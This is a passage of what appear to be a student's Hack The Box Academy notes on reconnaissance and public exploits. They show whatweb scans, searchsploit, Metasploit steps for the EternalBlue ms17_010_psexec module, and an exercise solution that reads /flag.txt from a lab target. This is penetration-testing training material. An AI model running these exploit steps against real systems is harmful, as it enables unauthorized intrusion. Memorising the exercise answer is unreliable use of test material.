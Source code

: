 The same applies to :
```shell-session
NolanCarougeHTB@htb[/htb]$ whatweb 10.10.10.121

NolanCarougeHTB@htb[/htb]$ whatweb --no-errors 10.10.10.0/24
```

## Public Exploits : 

Command to find exploits :
```shell-session
NolanCarougeHTB@htb[/htb]$ searchsploit openssh 7.2
```

Otherwise sites like :
- [Exploit DB](https://www.exploit-db.com/)
- [Rapid7 DB](https://www.rapid7.com/db/)
- [Vulnerability Lab](https://www.vulnerability-lab.com/)

Find and exploit an application vulnerability with metasploit :
```shell-session
NolanCarougeHTB@htb[/htb]$ msfconsole

msf6 > search exploit eternalblue

msf6 > use exploit/windows/smb/ms17_010_psexec

show options

msf6 exploit(windows/smb/ms17_010_psexec) > check


msf6 exploit(windows/smb/ms17_010_psexec) > exploit

```

Solve exercise :
```shell-session
sudo nmap 83.136.252.214 -p 43057 -Pn -sV
msf console 
search exploit simple backup
SET RHOSTS
SET RPORT
SET FILEPATH /flag.txt
```

## Types of Shells : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Fundamental/Getting%20Started/Images/Shell%20Types%201.png)
